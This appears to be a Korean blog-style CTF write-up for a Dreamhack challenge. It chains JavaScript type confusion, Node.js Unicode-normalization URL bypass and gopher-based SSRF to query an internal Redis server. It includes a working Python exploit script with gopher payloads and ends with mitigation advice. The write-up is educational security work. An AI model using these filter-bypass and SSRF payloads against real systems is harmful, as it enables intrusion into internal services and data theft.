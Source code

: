 ```yaml
---
title: ["Redis SSRF & NodeJS Unicode Normalization"]
date: 2025-02-17 09:00:00 +0900
categories: [techniques, NodeJS]
tags: [web, ssrf, redis, nodejs, unicode normalization, bypassing filters]
---
```

Dreamhack 문제를 풀고 관련된 개념을 정리하려고 한다.  

# Dreamhack CTF Writeup
## 문제 분석

이 문제는 Node.js 기반 웹 애플리케이션의 여러 취약점을 조합하여 플래그를 획득하는 문제입니다:
1. Type Confusion을 이용한 필터 우회
2. Unicode Normalization을 이용한 URL 파싱 우회
3. SSRF를 통한 내부 Redis 서버 접근

## 취약점 상세 분석

### 1. 로직 분석

주요 엔드포인트와 기능:
- `/add`: sess.user 객체의 프로퍼티를 수정할 수 있음
- `/view/:pid`: Redis에서 특정 키의 값을 조회 (localhost만 허용)
- `/`: 로그인한 사용자의 profile.url을 방문하여 결과를 표시

플래그는 Redis에 랜덤한 키로 저장되어 있다:
```javascript
client.set(crypto.createHash('sha512').update(crypto.randomBytes(64)).digest('hex'), FLAG);
```

### 2. 취약점 체인

#### 2.1 Type Confusion
`/add` 엔드포인트의 필터를 우회하기 위해 Type Confusion을 이용할 수 있다:
```javascript
if(value.length >= 25) {
    return res.json({
        c: -1,
        e: "Too long"
    });
}
```
위 코드는 value가 문자열일 경우에만 길이를 체크한다. value를 객체로 전달하면 이 체크를 우회할 수 있다.

#### 2.2 Unicode Normalization
Node.js v14에서 URL 파싱 시 Unicode 문자를 정규화하는 과정을 이용해 URL 검증을 우회할 수 있다:
```javascript
if(!profile_URL.host.endsWith(config.HOST))
```

특수 문자들을 유니코드로 변경: [Unicode normalization](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html)
- `:` → `︓` (Full width colon)
- `/` → `／` (Full width slash)
- `%` → `％` (Full width percent)
- `*` → `﹡` (Full width asterisk)

### 3. 공격 시나리오

1. 로그인하여 세션 획득
2. Type Confusion을 이용해 profile 객체 조작
3. Unicode Normalization을 이용해 gopher URL 주입
4. SSRF를 통해 Redis 서버에 접근하여 키 목록 획득
5. 획득한 키를 이용해 플래그 값 조회

## 익스플로잇 코드

```python
import requests

url = "http://host1.dreamhack.games:xxxxx"
s = requests.Session()

# 1. 로그인
s.post(url + "/login", json={"username": "test", "password": "test", "email": "test"})

# 2. profile.isRender를 true로 설정하고 gopher URL 주입
payload = {
    "key": ["profile"],
    "value": {
        "url": "gopher://redis︓6379／_keys％20﹡％0d％0aquit％0d％0a127.0.0.1:8000",
        "isRender": "true"
    }
}
s.post(url + "/add", json=payload)

# 3. Redis 키 목록 획득
keys = s.get(url + "/").text
print("Found keys:", keys)

# 4. 플래그 키를 이용해 값 조회
for key in keys.split("\r\n"):
    if len(key) == 128:  # SHA-512 length
        payload = {
            "key": ["profile"],
            "value": {
                "url": f"gopher://redis︓6379／_get％20{key}％0d％0aquit％0d％0a127.0.0.1:8000",
                "isRender": "true"
            }
        }
        s.post(url + "/add", json=payload)
        print("Flag:", s.get(url + "/").text)
```

## 학습 포인트

1. JavaScript에서 Type Confusion이 발생할 수 있는 상황
2. Node.js의 URL 파싱과 Unicode Normalization의 특성
3. SSRF를 이용한 내부 서비스 접근 기법
4. Redis 프로토콜과 gopher URL을 이용한 공격

## 대응 방안

1. 타입 검사 강화
   - `typeof` 또는 스키마 검증 라이브러리 사용
   
2. URL 검증 강화
   - 허용된 프로토콜만 사용하도록 제한
   - URL 파싱 전 문자열 정규화
   
3. 내부 서비스 보안
   - Redis 바인딩 주소 제한
   - 적절한 인증 설정
   - 네트워크 분리

## Reference
[Node.js url.parse() 취약점 컨트리뷰션](https://toss.tech/article/nodejs-security-contribution)  
[nodejs unicode](https://lactea.kr/entry/nodejs-unicode)  
[JavaScript type confusion: Bypassed input validation](https://snyk.io/blog/remediate-javascript-type-confusion-bypassed-input-validation/)  
[Hostname spoofing](https://hackerone.com/reports/678487)  
[Unicode Normalization](https://book.hacktricks.wiki/en/pentesting-web/unicode-injection/index.html)  
[Alternative Unicode Character](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html)  
[SSRF Gopher](https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/index.html#gopher)  
